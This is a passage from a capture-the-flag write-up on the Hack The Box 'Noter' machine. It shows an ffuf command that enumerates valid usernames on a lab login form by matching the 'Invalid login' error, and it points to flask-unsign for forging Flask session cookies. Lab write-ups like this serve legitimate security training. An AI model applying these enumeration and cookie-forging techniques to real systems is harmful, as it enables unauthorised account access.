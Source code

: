 ```
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=1234
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Invalid login
________________________________________________

gems                    [Status: 200, Size: 2026, Words: 432, Lines: 69, Duration: 757ms]
:: Progress: [8/8] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
The above command was used to brute force username and match the regular expression where by when username is valid but password is  invalid it will say `Invalid login`

```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/noter]
└─$ ffuf -u http://10.10.11.160:5000/login -d 'username=FUZZ&password=1234' -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -mr 'Invalid login'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.160:5000/login
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=1234
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Invalid login
________________________________________________

blue                    [Status: 200, Size: 2026, Words: 432, Lines: 69, Duration: 451ms]
Blue                    [Status: 200, Size: 2026, Words: 432, Lines: 69, Duration: 1235ms]
BLUE                    [Status: 200, Size: 2026, Words: 432, Lines: 69, Duration: 1646ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
After bruteforcing the users the final result was user present in the system is named as `blue` with case insensitive.

### Login as user Blue.
One thing about this system is that, it uses the cookies in validating its users and the type of cookie used is similar to `flask` You can use [jwt.io](https://jwt.io/) But this was not so promising. But we can use another command line tool named as `flask-unsign` this can be found in [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)
